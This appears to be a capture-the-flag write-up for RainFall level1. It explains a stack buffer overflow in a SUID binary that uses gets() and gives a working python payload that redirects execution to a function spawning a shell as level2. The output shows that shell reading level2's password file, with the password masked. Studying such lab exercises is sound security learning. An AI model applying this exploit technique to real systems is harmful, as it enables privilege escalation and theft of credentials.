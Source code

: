# Level1
Level1 introduce buffer overflow attacks

# Tools
GDB

# Walkthrough
The home of `level1` contains a SUID bit binary file, owned by `level2`:
```
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

Upon checking the `level1` binary with GDB and disassembling main, we see the code in the `main.asm` file. 

This code calls a really dangerous function, `gets`. `gets` doesn't perform any checks before writing to its buffer, thus someone that would write a long string inside of `gets` would pretty easily buffer overflow the stack, and could leverage that to execute arbitrary code.

Let's dissect the assembly code a little more to better understand the programme:
```x86
   0x08048480 <+0>:	push   ebp ; First two lines are the prologue, prepare the
   0x08048481 <+1>:	mov    ebp,esp ; stack frame for the main function to be executed
   0x08048483 <+3>:	and    esp,0xfffffff0 ; 
   0x08048486 <+6>:	sub    esp,0x50 ; Allows 80 bytes for the buffer
   0x08048489 <+9>:	lea    eax,[esp+0x10] ; Prepare the stack to receive data
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax ; Prepare the stack to receive data
   0x08048490 <+16>:	call   0x8048340 <gets@plt> ; Calls gets()
   0x08048495 <+21>:	leave ; Setup to return control to the caller
   0x08048496 <+22>:	ret ; Setup to return control to the caller
```

Okay, apart from the `gets` call there is nothing too fancy, but maybe the programme calls other functions?
Using [dogbolt](https://dogbolt.org/), we can reverse engineer the binary.
We see that the programme also contains a function `run()`:
```c
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}
```
As we can see, the `run()` commands prints a message and spawns a shell, with the privileges of level2 (file owner and SUID bit).

Using GDB, we can get the address of that function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
`run` is located at the address **0x08048444**. We want to setup our programme so that when `gets()` returns and pops the return address of the caller, instead of getting the `leave` instruction from the `main`, it calls the `run` function.

To do that, we will make use of the stack buffer overflow. We know that the programme allocates 80 bytes for the buffer of `gets()`.

We break on `main` and `gets`, and show the content of the stack:
```
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) break gets
Breakpoint 2 at 0x8048340
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0xb7e91e40 in gets () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/20x $esp
0xbffff6ac:	0x08048495	0xbffff6c0	0x0000002f	0xbffff70c
0xbffff6bc:	0xb7fd0ff4	0x080484a0	0x0804978c	0x00000001
0xbffff6cc:	0x08048321	0xb7fd13e4	0x00000016	0x0804978c
0xbffff6dc:	0x080484c1	0xffffffff	0xb7e5edc6	0xb7fd0ff4
0xbffff6ec:	0xb7e5ee55	0xb7fed280	0x00000000	0x080484a9
``` 
The first double word of data is the address of the return value of the main function. Thus, we know that, just before filling out the buffer, we need to write out the address of the `run` function to call it.

We write 76 A and then the address of the `run` function in reverse order because of the little endian of the system. 
```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; ./level1 < attack.txt; rm -rf attack.txt
```

That segfaults, because Bash still reads on STDIN which is closed. Thus, we need to maintain STDIN opened after we inputed our payload:

```bash
python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
```

```bash
level1@RainFall:~$ python -c 'print("A"*76 + "\x44\x84\x04\x08")' > attack.txt; cat attack.txt - | ./level1; rm -rf attack.txt
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


# Sources
[Tutorial on GDB and Stack Buffer Overflow](https://eric-lo.gitbook.io/stack-smashing-attack/asm)
